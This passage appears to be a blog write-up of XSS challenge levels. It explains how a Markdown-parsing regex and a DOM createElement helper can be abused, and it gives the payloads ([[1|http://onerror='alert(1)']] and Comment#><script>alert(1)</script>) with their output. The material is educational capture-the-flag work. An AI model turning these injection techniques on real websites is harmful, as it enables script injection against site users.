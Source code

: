 this one is a bit tricky, first of all is a function that parses Markdown syntaxis. i'll recommend to any newcomer to play a bit with the `[[img123|Description]]` test case that is gave on the example. also note that the ALL the `<` and ALL the `/` are escaped. 

<br><br><br><br>**Solution**:<br><br><br><br>

even thought a rare case, we can abuse the regex in order to generate an `img`tag which prompts an ´alert(1)´ with help of ´onerror´: 

```
[[1|http://onerror='alert(1)']]
```

which will output the following:

{% highlight html %}
<img alt="<a href="http://onerror='alert(1)'" src="1.gif">">http://onerror='alert(1)']]</a>
{% endhighlight %}

#DOM 

{% highlight javascript %}
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
{% endhighlight %}

the vulnerability here resides on the line:

```
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
```

as we can see every (<>) is escaped to (`&lt;&gt;`)... if we check closer the info that is given on the code we find the comment: `// Pass in something like "TextNode#foo"`... so it's concatenates a string that is `createTextNode`which is a DOM method. the tricky part here is know what's the method that can actually help us to escape the string:

<br><br><br><br>**Solution**:<br><br><br><br>

```
Comment#><script>alert(1)</script>
```

will output:

{% highlight javascript %}
<script>alert(1)</script>-->
{% endhighlight %}

# Callback
